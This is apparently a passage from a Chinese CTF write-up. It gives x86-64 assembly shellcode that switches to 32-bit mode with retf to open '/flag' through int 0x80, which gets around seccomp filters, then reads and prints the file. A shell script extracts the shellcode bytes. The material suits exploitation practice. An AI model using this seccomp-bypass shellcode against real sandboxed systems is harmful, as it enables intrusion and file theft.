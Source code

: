 ```c
section .text
	global _start
_start:
	; wrtie(1,say,len)
	mov rdi,1
	mov rsi,say
	mov rdx,len2
	mov rax,0x1
	syscall

to32bit:
	; retf to 32bit
	push open_32
	mov r15,0x2300000000
	add qword [rsp],r15
	retf

open_32:
	; open("/flag",0,execte|write|read)
	mov ebx,flag
	xor ecx,ecx
	mov edx,0x7
	mov eax,0x5
	int 0x80

to64bit:
	; retf to 64 bit
	mov esp,space1
	push 0x33
	push read_64
	retf

read_64:
	; read(fd,buf,count)
	mov rdi,rax ; fd
	mov rsi,store_flag
	mov rdx,0x80
	xor rax,rax
	syscall
	jmp write_64

write_64:
	;write(fd,buf,count)
	mov rdi,1
	mov rsi,store_flag
	mov rdx,rax ; the count that had read
	mov rax,1
	syscall

	; exit
	mov rax,0x3c
	syscall
```
* 用strace验证下完成了open
![](https://z3.ax1x.com/2021/07/14/WesfHJ.png)
* TIP 编译的时候老是输入同样的命令 不如放入一个shell script里
```SHELL
nasm -f elf64 test.asm
ld -m elf_x86_64 -o test test.o
objdump -d test
echo "\n\n\n\nShellcode"
objdump -d ./test|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```